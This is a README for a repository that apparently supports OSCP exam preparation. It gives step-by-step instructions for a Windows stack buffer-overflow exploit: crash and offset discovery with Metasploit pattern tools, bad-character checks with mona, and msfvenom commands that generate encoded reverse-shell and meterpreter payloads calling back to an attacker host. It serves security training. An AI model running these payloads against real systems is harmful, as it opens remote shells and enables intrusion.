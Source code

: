 # BoF4OSCP

TODO: python3 setup.py IP PORT

It's gonna edit all the python scripts with your target IP and PORT

Then follow the next steps...

Make sure mona is installed:
```
!mona config -set workingfolder c:\mona
```

## 1st step : create a crash

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000

run python3 offset.py
```

check on mona what is the EIP address

take the EIP address (that looks mike EIP 386F...)

## 2nd step : pattern create

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337 (EIP ADDRESS)
[*] Exact match at offset 2003
```

## 3rd step : control EIP

edit eipOverwrite.py with the correct offset

```python3 eipOverwrite.py```

check on Immunity if EIP is well overwritten with 4B4B4B

## 4th step : finding badchars

```
python3 findingBadchars.py
```

right click on ESP, follow in dump

find the badchars using the following command

```
!mona compare -f c:\mona\bytearray.bin -a 005FF910(ESP ADDRESS)
```

## 5th step : fire up the reverse shell

We can also create encoded payloads if some sort of protections are presents
```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
```
edit finalBuff
setup a listener

```
python3 finalBuffer.py
```
